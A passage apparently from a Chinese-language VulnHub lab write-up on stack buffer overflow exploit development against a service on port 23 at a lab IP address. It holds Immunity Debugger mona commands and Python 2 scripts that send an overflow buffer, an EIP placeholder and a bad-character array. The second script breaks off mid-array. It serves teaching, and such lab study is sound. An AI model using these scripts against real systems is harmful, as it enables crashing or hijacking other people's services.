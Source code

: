 ```bash
!mona bytearray -cpb \x00
```

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
buff = "A"*1902
eip = "B" * 4
buffer = badchars
nullByte = "\x00"
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

执行`!mona compare -a esp -f  "D:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin"`

![11](https://static.iihack.com/vulnhub/613/11.png)



```bash
!mona bytearray -cpb \x00\x4d
```



```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
"\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
"\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
```